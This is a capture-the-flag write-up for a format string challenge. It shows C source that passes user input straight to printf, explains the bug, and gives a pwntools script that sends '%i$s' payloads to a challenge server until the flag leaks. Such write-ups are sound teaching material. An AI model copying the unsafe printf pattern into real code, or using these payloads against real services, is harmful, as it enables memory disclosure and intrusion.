 # cant-fine-me:
## Description:

Can you find the flag?

```
nc 129.241.209.70 29279
```
---
## The plan
We are given both the source code and the binary for this challenge. We start out by looking at the source code, which is small and straight forward. 

```c
char flag[]  = "REDACTED";

int main() {
    char *flagPointer = flag;
    char input[20];
    puts("Where to look?");
    fgets(input, 20, stdin);
    printf(input);
    return 0;
}
```

We can see that in the main function, a pointer to the flag is created, before we are asked where to look. Our input is then printed to stdout using `printf` without any formatter. 

The first parameter to the `printf` function is a format string, meaning we can specify the type of parameters we want to print. We can look at the details by typing `man 3 printf` in a terminal.

The safe way to call this function would have been `printf("%s", input)`, then the function would print our input as a string. But the way its used in this program, the user controls the first argument to printf, meaning we can control how the output is formated. lets say we send in `%p`, the program will then assume that there is a second argument to printf, and since this a 64bit binary, it will print the pointer in the register `RSI`.

From the soruce code, we can assume that there is a pointer to the flag on the stack, and by using the `%X$s` formater to print a string at a given position `X` on the stack, we should be able to find the flag eventually. 

## Exploit script

The easiest way to do this, is to create a script that tries to print all pointers on the stack as a string, one by one.

```python
from pwn import *
for i in range(100):
    io = remote('129.241.209.70', 29279)
    io.recvuntil('look?\n')
    io.sendline(f'%{i}$s')
    data = io.recvline()
    if b'KID20' in data:
        print(data)
        break
    io.close()
```
Running the scirpt:
![solve](solve.png)